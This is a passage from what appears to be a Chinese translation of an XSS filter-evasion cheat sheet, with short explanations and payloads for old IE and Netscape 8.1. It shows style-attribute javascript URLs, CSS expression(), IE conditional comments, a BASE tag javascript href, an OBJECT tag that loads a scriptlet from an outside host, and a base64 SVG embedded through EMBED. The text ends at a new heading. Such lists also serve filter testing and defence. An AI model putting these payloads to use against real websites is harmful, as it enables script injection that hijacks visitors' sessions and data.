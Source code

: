 Rnaske 开发了一个 XSS fuzzer 去探测可以在开括号和 javascript 之间加入哪些额外字符在 IE 和安全模式下的 Netscape 8.1。都是一些十进制的字符，但是你也可以用十六进制来填充。（下面这些编码字符可以被使用：1-32, 34, 39, 160, 8192-8.13, 12288, 65279）

```
<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))"> 
```

### DIV expression

它的一个变体是更加有效的去绕过实际的 xss 过滤器是在冒号和表达式之间添加换行符。

```
<DIV STYLE="width: expression(alert('XSS'));"> 
```

### html 条件选择注释块

只能工作在 IE5.0 以及更新版或是使用了 ie 渲染引擎的 Netscape 8.1 。 一些网站认为任何包裹在注释中的内容都是安全的，因此并不会被移除。这将允许我们的 xss 向量。或者系统可能通过添加注释对某些内容去试图无害的渲染它。如我们所见，这有时并不起作用。

```
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
 <![endif]--> 
```

### BASE 标签

工作 ie 或是使用了安全模块的 Netscape 8.1，你需要使用 "//" 斜体文本去避免 javascript 错误。这需要当前网站使用相对路径（例如 images/image.jpg）而不是绝对路径。如果路径开始用一个斜杠（例如"/images/image.jpg"），你需要去掉 xss 向量中的一个斜杠（只有在两个斜杠的情况下才会起到注释作用）

```
<BASE HREF="javascript:alert('XSS');//"> 
```

### OBJECT 标签

如果允许 objects 标签，你也可以注入病毒 payloads 去感染用户。类似于 APPLET 标签。这个链接文件是一个包含 xss 代码的 html 文件。

```
<OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT> 
```

### 使用一个你可以载入包含有 xss 代码的 flash 文件的 EMBED 标签

点击这个 demo，如果你加入属性 allowScriptAccess="never" and allownetworking="internal"他可以缓解这个风险（谢谢 Jonathan Vanasco 的这个信息）

```
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED> 
```

### 使用在 flash 中的 ActionScript 可以混淆你的 xss 向量
